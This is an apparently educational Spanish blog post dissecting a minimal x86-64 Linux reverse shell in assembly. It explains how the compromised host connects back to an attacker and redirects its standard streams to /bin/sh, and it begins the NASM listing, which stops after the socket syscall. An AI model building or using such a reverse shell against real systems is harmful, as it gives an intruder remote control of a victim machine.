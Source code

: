 ---date: 2025-10-16 11:00:00 +0200
tags: [post, reverse-shell, hacking, linux, asm]
excerpt: "Implementación mínima de una reverse shell TCP x86-64 en Linux usando solo syscalls (socket, connect, dup2, execve), con pasos de compilación y uso."
---

---
date: 2025-10-16 10:00:00 +0200
categories: [assembly, security, low-level]
---

## Introducción

Una **reverse shell** es una técnica donde la máquina comprometida inicia una conexión saliente hacia el atacante, quien queda a la escucha. A diferencia de una bind shell (donde el objetivo escucha), la reverse shell sortea firewalls que bloquean conexiones entrantes pero permiten salientes.

En este post vamos a diseccionar una implementación minimalista en **assembly x86-64** para Linux, usando únicamente syscalls del kernel. El objetivo es educativo: entender cómo funciona a bajo nivel, qué syscalls intervienen y cómo se ensamblan para crear un canal de comunicación completo.

---

## Arquitectura de la Reverse Shell

El flujo es simple pero efectivo:

1. **SOCKET**: Crear un socket TCP/IPv4
2. **CONNECT**: Conectar al IP:puerto del atacante
3. **DUP2**: Redirigir stdin, stdout y stderr al socket
4. **EXECVE**: Ejecutar `/bin/sh` (shell interactiva)

Una vez completados estos pasos, el atacante tiene control total sobre la shell del sistema comprometido.

---

## Código Completo

```nasm
; ============================================================================
; =     Reverse Shell (TCP) (Linux x86-64) — EDUCATIONAL PURPOSES ONLY       =
; =                        With <3 by 574R — No guarantees.                  =
; ============================================================================

section .text
global _start
_start:

    ; ========================================================================
    ; 1. SOCKET (syscall 41)
    ; ========================================================================
    ; Crea un socket TCP/IPv4 y guarda su file descriptor en r8
    
    mov rax, 41        ; syscall: socket
    mov rdi, 2         ; AF_INET (IPv4)
    mov rsi, 1         ; SOCK_STREAM (TCP)
    xor rdx, rdx       ; protocol = 0 (default para TCP)
    syscall

    mov r8, rax        ; Guardamos el FD del socket en r8

    ; ========================================================================
    ; 2. CONNECT (syscall 42)
    ; ========================================================================
```